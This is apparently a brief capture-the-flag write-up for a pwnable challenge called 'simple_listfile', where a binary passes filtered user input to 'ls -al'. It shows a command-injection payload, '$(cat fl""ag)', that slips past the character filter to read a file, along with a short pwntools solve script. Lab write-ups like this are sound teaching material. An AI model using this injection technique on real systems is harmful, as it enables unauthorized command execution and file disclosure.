


# PoC HackingCamp 16th Pwnable simple_listfile

## Binary Analysis



This binary read input and filter some characters and execute them with the `ls -al`.



The characters that it filters are `;` ,``` ` ```, `|` , `*` , `&` , `\` , `?` , `>` , `<` , `'` , `\n`, and `flag`.

But, it doesn't filter `$` , `(` , `)` and `"`.

I used them like this.

`$(cat fl""ag)`

## Solve Code

```python
from pwn import *

p = process("./simple_listfile")
p.sendlineafter(": ", "$(cat fl\"\"ag)")

p.interactive()
```